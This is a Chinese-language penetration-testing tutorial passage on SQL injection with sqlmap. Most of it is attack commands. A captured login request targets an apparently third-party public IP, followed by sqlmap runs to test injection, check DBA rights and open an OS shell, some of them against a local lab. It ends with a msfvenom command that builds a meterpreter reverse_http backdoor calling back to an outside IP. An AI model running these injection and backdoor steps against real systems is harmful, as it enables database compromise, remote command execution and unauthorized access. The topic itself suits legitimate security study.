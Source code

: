 ### 3.9.4.3 数据库注入-sqlmap-数据猜解&高权限读写执行

如果用数据包去进行测试，那么需要在数据包上注入点中加上*号，然后用到-r 参数进行测试。（数据包保存为文本文件）
测试目标：47.94.200.108:888
抓取登录框数据包
POST /Login/ValidateLogin HTTP/1.1
Host: 47.94.200.108:888
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://47.94.200.108:888/Login/index
Content-Length: 32
Cookie: Hm_lvt_8ee3ec23e73c6dcda2c7c9c489c151aa=1645057307; Hm_lpvt_8ee3ec23e73c6dcda2c7c9c489c151aa=1645057307
DNT: 1
Connection: close

userName=admin&password=12456789

在SQLmap运行目录生成1.txt文件，保存数据包

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132519305-1644180661.png)

执行：python310 sqlmap.py -r 1.txt
但是最后测试没有注入点

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132515576-1424915675.png)

但是经过手工测试，证明注入点还有。在admin下面加上'来进行测试。但是最后测试还是没有注入点。

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132515820-601843129.png)

查看权限：python310 sqlmap.py -r 1.txt --is-dba
执行命令(交互式)：python310 sqlmap.py -r 1.txt --os-shell
本次用本地案例来进行代替。
本地联动msf
则python310 sqlmap.py -u "http://127.0.0.1:8081/web/mysql/news.php?id=1"

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132516823-913999468.png)

判断高权限：python310 sqlmap.py -u "http://127.0.0.1:8081/web/mysql/news.php?id=1" --is-dba

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132515190-958000466.png)

进行命令执行：python310 sqlmap.py -u "http://127.0.0.1:8081/web/mysql/news.php?id=1" --os-shell

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132515453-1781262971.png)

在msf中生成一个后门： msfvenom -p windows/meterpreter/reverse_http lhost=47.100.167.248 lport=1111 -f exe -o sql.exe
